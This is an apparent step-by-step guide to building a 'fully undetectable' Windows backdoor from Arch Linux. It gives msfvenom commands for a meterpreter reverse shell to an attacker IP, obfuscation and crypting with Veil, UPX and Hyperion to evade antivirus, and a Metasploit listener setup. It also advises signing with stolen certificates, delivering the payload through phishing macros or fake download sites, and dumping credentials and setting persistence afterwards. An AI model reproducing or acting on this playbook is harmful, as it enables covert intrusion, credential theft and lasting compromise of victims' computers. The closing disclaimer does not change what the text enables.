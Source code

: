 
**Step-by-Step Guide to Creating a FUD Backdoor for Windows via Arch Linux**  

### **1. Tool Setup**  
- **Install Metasploit Framework**:  
  ```bash  
  git clone https://github.com/rapid7/metasploit-framework  
  cd metasploit-framework  
  bundle install  
  ```  
- **Install Obfuscation Tools**:  
  - **Veil-Evasion** (bypass AV signatures):  
    ```bash  
    git clone https://github.com/Veil-Framework/Veil.git  
    cd Veil && ./config/setup.sh  
    ```  
  - **UPX Packer** (compress/obfuscate executables):  
    ```bash  
    sudo pacman -S upx  
    ```  

### **2. Generate Payload**  
- **Create Undetectable Reverse Shell** (msfvenom):  
  ```bash  
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f exe -o payload.exe  
  ```  
- **Obfuscate Payload**:  
  - **Veil-Evasion**:  
    ```bash  
    veil-evasion  
    > use 1 (Windows Meterpreter)  
    > set LHOST <YOUR_IP>  
    > set LPORT 4444  
    > generate  
    ```  
  - **UPX Compression**:  
    ```bash  
    upx --ultra-brute payload.exe -o payload_fud.exe  
    ```  

### **3. Listener Configuration**  
- **Start Metasploit Handler**:  
  ```bash  
  msfconsole  
  > use exploit/multi/handler  
  > set PAYLOAD windows/meterpreter/reverse_tcp  
  > set LHOST <YOUR_IP>  
  > set LPORT 4444  
  > exploit  
  ```  

### **4. Signature Evasion**  
- **Custom Crypter** (e.g., **Hyperion**):  
  ```bash  
  git clone https://github.com/nullsecuritynet/tools.git  
  cd tools/hyperion  
  wine hyperion.exe -v payload_fud.exe payload_encrypted.exe  
  ```  
- **Code Signing** (optional):  
  Use stolen or forged certificates to sign the payload.  

### **5. Delivery Methods**  
- **Phishing Email**: Embed payload in a macro-enabled Office document.  
- **Fake Software**: Host payload on a cloned/download site.  
- **Exploit Kits**: Deploy via browser vulnerabilities (e.g., EternalBlue).  

### **6. Post-Exploitation**  
- Use Meterpreter to:  
  - Escalate privileges (`getsystem`).  
  - Dump credentials (`hashdump`).  
  - Enable persistence (`persistence -X -i 60 -p 443 -r <IP>`).  

### **Risks**:  
- **Detection**: Modern EDR/AV (e.g., Windows Defender) may flag even obfuscated payloads.  
- **Legal**: Violates CFAA (US) and similar global laws (10+ years imprisonment).  
- **Ethical**: Unauthorized access is universally condemned.  

**Note**: FUD status is temporary. Continuous obfuscation/recoding is required. Use only in isolated, authorized environments.